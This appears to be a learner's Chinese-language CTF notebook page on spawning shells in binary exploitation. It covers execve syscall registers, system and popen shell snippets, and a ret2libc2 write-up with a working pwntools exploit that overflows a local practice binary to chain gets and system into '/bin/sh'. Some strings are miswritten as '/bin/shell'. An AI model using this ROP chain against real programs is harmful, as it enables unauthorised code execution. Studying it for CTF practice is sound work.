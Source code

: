 
系统调用 shell	(execve)  
构造execve系统调用的汇编
![[wiki_rop_01.png]]
其中sysenter是系统终端,int 0x80 也可以

eax  = 0xb (调用号)  	         							
ebx = '/bin/shell' 字符串地址 '/sh' 也可以	 
ecx = 0    							
edx = 0
int 0x80 


系统调用 shell (system)
这是一个函数，别忘了构造它的返回地址
![[wiki_rop_02.png]]

还有两种shell，目前还未实现
1.使用fork 和 execl函数

```
#include <unistd.h>

int main() {
    if (fork() == 0) {
        execl("/bin/sh", "sh", NULL);
    }
    return 0;
}

```

2.使用 popen 函数
```
#include <stdio.h>

int main() {
    FILE *fp;
    fp = popen("/bin/sh", "r");
    pclose(fp);
    return 0;
}

```




- ret2libc2
![[wiki_rop_03.png]]
该题没有’bin/shell‘字符串，需要我们手动构造gets函数写入’bin/shell‘

```
溢出点 ret      gets地址
				system地址  (gets返回地址)
				buf         (gets参数/gets返回地址)
				buf         (system参数，此时已经写上了'bin/shell')

ps:这里的函数地址都不能是call,而是jump,返回地址要我们自己构造
```

exp如下
```
from pwn import *
import time
sh = process('./ret2libc2')
elf = ELF('./ret2libc2')
buf = 0x804a080

#system_plt = 0x08048490
system_plt = elf.plt['system']
#gets_plt = 0x08048460
gets_plt = elf.plt['gets']

gdb.attach(sh)
sleep(10)

payload = flat([b'a'*112,gets_plt,system_plt,buf,buf])
sh.sendline(payload)
sh.sendline('/bin/sh')
sh.interactive()

```



